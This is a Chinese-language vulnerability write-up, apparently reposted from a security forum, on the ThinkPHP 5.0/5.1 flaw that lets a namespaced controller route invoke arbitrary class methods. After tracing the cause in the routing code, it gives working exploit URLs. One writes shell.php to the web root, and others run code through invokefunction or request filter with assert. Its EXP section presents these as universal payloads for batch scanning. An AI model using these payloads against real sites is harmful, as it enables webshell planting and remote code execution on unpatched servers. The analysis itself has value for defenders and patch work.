

## 0x01漏洞分析

我们在官方给的信息的位置下断点

thinkphp\library\think\route\dispatch\Module.php


访问一下


这里有一个exce方法,跟进controller方法


继续跟进


这里会返回我们带命名空间的完整类名。 模块->控制器->方法

```
这里我们需要注意的一点就是if的第一个分支,当存在\时,就会不进行一系列操作,直接返回

而命名空间恰好就是使用反斜杠来划分，结合parseModuleAndClass中的那一个判断代码：反斜杠是否存在，直接返回类名的操作。并没有做任何过滤操作
```

接下来的就懒得写了,COPY一下

不难想到是可以调用任意类的方法。

比如这样？

```
http://127.0.0.1/index.php/index/think\app/index
```

请求一下，发现报错了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20181211183110-e08539f8-fd2f-1.png)

what the fuck？ 我的反斜杠怎么变成了正斜杠了？而且这个控制器怎么获取的是Think？

猜测是浏览器的原因，用bp发包一样如此，那么还有没有其他方法可以获取到呢？

翻了一下tp的配置文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20181211183121-e6b2339e-fd2f-1.png)

发现可以使用s来获取参数，那么我们就可以尝试这样请求

```
http://127.0.0.1/index.php?s=/index/think\app/index
```

成功实例化了App类，因为没有index 方法所以这里会报错。

[](https://xzfile.aliyuncs.com/media/upload/picture/20181211183156-fb9cd476-fd2f-1.png)
但已经验证了整个漏洞的原理。

> 控制器过滤不严，结合直接返回类名的代码操作，导致可以用命名空间的方式来调用任意类的任意方法。

形如：

```
http://127.0.0.1/index.php?s=/index/namespace\class/method
```

漏洞点找到了，那么接下来就是找利用点了。


这里介绍一下library/think文件,我们随便点开一个,可以发现文件开头有一个namespace


其实think文件下的文件在这里都可以被随意调用

## 0x02 漏洞利用

tp 5.1.29 简单找了个写shell的方法，看到thinkphp\library\think\template\driver\File.php 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20181211183322-2f02323e-fd30-1.png)
有一个完美的写shell方法。

```
http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
```

执行之后会在根目录下写入shell.php ，内容是输出phpinfo();

[](https://xzfile.aliyuncs.com/media/upload/picture/20181211183347-3e361342-fd30-1.png)

## 0x03EXP

5.1是下面这些：

```
think\Loader 
Composer\Autoload\ComposerStaticInit289837ff5d5ea8a00f5cc97a07c04561
think\Error 
think\Container
think\App 
think\Env 
think\Config 
think\Hook 
think\Facade
think\facade\Env
env
think\Db
think\Lang 
think\Request 
think\Log 
think\log\driver\File
think\facade\Route
route
think\Route 
think\route\Rule
think\route\RuleGroup
think\route\Domain
think\route\RuleItem
think\route\RuleName
think\route\Dispatch
think\route\dispatch\Url
think\route\dispatch\Module
think\Middleware
think\Cookie
think\View
think\view\driver\Think
think\Template
think\template\driver\File
think\Session
think\Debug
think\Cache
think\cache\Driver
think\cache\driver\File
```

5.0 的有：

```
think\Route
think\Config
think\Error
think\App
think\Request
think\Hook
think\Env
think\Lang
think\Log
think\Loader
```

两个版本公有的是：

```
think\Route 
think\Loader 
think\Error 
think\App 
think\Env 
think\Config 
think\Hook 
think\Lang 
think\Request 
think\Log
```

本想找出两个版本共有的利用类和方法，但由于类文件大多被重写了，所以没耐住性子一一去找（菜）

所以，payload为上述类的利用方法，是可以兼容windows和linux多个平台的，兼容多个平台有什么用呢？插件批量可以减少误判等，一条payload通用，一把梭多好。

比如:

5.1.x php版本>5.5

```
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert

http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>
```

5.0.x php版本>=5.4

```
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```


参考链接:https://xz.aliyun.com/t/3570#toc-2